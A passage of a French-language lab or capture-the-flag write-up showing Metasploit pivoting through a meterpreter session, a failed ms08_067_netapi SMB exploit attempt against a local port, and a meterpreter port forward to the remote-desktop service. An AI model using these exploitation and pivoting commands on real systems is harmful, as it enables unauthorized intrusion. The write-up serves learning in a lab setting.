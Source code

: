 ```plain
    udp    192.168.1.11:137   0.0.0.0:*                      0     0      4/System
    udp    192.168.1.11:123   0.0.0.0:*                      0     0      772/svchost.exe
    udp    192.168.1.11:138   0.0.0.0:*                      0     0      4/System
```

Come get some
-------------

Essayons de mettre en place une route depuis *Metasploit* afin de pouvoir lancer un exploit SMB sur la port 445 local :  

```plain
msf exploit(handler) > route add 127.0.0.1 255.255.255.0 2
[*] Route added
msf exploit(handler) > connect 127.0.0.1 445
[*] Connected to 127.0.0.1:445
^Cmsf exploit(handler) >
```

La redirection fonctionne :)  

```plain
msf exploit(handler) > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf exploit(ms08_067_netapi) > exploit

[*] Started reverse handler on 127.0.0.1:9999 via the meterpreter on session 2
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP - Service Pack 2+ - lang:English
[-] Could not determine the exact service pack
[*] Auto-targeting failed, use 'show targets' to manually select one
```

et si on fixe la target :  

```plain
[*] Started reverse handler on 127.0.0.1:9999 via the meterpreter on session 2
[-] Exploit failed: Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS_OBJECT_NAME_NOT_FOUND (Command=162 WordCount=0)
```

Bon, plusieurs possibilités : soit je fais quelque chose mal, soit l'ISO que j'ai est patché contre cette attaque, soit le *VulnInjector* a pris soin de patcher la faille d'une manière ou d'une autre...  

Kansas City Shuffle
-------------------

On va plutôt créer une redirection de port vers le service *TSE* (port 3389) et voir ce qu'on peut en faire :

```plain
meterpreter > portfwd add -l 3389 -p 3389 -r 127.0.0.1
[*] Local TCP relay created: 0.0.0.0:3389 <:-> 127.0.0.1:3389
```
